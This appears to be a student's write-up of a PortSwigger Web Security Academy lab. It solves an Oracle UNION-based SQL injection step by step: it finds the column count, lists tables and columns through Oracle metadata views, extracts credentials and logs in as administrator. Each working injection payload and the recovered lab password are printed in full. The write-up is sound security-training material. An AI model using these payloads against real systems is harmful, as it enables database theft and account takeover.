






# Lab: SQL injection attack, listing the database contents on Oracle

## Lab Description
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, enabling a `UNION` attack to retrieve data from other tables.

The goal is to determine the name of the user credentials table and its columns in an Oracle database, extract the credentials, and log in as the `administrator` user.

---

## Step 1 — Intercept the Filter Request
Navigate to the application, click on a category filter (e.g., `Gifts`), capture the request in Burp Suite, and send it to the Repeater.

### Example Base Request
GET /filter?category=Gifts HTTP/1.1
Host: 0aa2004b03b4ebaf80878fd900290078.web-security-academy.net

---

## Step 2 — Verify SQL Injection & Comment Format (Oracle)
To validate the insertion point, a single quote (`'`) was appended to break the database syntax structure, followed by verifying the Oracle-specific comment sequence (`--`) to restore execution flow.

### Results
* `Gifts'` -> **500 Internal Server Error** (Confirms input syntax manipulation impacts the query).
* `Gifts'--` -> **200 OK** (Confirms Oracle comment line sequence `--` is processed effectively).

### Screenshots

---

## Step 3 — Discover Column Count & Data Type Compatibility (Oracle)
Since Oracle requires a structural source (`FROM`) for every select block, the built-in virtual table `dual` was leveraged to profile columns.

### Test Payload
`Gifts'+UNION+SELECT+'abc','def'+FROM+dual--`

### Result
* **HTTP Status Code:** 200 OK
* **Analysis:** The application returns a successful response, proving the query returns exactly **2 columns**, both of which accept **String** data types.

### Screenshots

---

## Step 4 — Enumerate Database Tables (Oracle)
Using Oracle's metadata view `all_tables`, an injection query was initiated to list all registered table names within the schema.

### Target Table Payload
`Gifts'+UNION+SELECT+table_name,+NULL+FROM+all_tables--`

### Result
* **HTTP Status Code:** 200 OK
* **Identified User Table:** `USERS_BIDPXJ`

### Screenshots

---

## Step 5 — Enumerate Columns of the Target Table (Oracle)
Using Oracle's metadata view `all_tab_columns`, a query was injected with a strict upper-case filter on the table name to extract the credential column identifiers.

### Target Column Payload
`Gifts'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_BIDPXJ'--`

### Result
* **HTTP Status Code:** 200 OK
* **Identified Columns:**
  * Username Field: `USERNAME_NUMAKX`
  * Password Field: `PASSWORD_XUBLNL`

### Screenshots

---

## Step 6 — Data Exfiltration & Privilege Escalation (Oracle)
Using the precise table name and verified column structural mapping, a targeted data extraction request was executed to retrieve stored user accounts.

### Exfiltration Payload
`Gifts'+UNION+SELECT+USERNAME_NUMAKX,+PASSWORD_XUBLNL+FROM+USERS_BIDPXJ--`

### Compromised Credentials
* **Username:** `administrator`
* **Password:** `gc1lyu0ippiwhvgv5crv`

### Screenshots

---

## Step 7 — Execution & Verification (Lab Solved)
By leveraging the recovered administrator credentials at the `/login` endpoint, a high-privilege session was successfully authenticated, completing the lab.

### Screenshots
